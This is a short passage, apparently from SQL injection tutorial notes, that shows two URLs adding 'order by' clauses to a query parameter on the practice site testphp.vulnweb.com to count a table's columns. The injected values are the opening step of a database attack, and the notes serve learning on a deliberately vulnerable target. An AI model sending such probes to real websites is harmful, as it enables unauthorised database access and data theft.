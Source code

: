 **To check the number of columns**

```
http://testphp.vulnweb.com/listproducts.php?cat=2 order by 2
```

![image-20211013143948092](images/image-20211013143948092.png)

```
http://testphp.vulnweb.com/listproducts.php?cat=2 order by 20
```
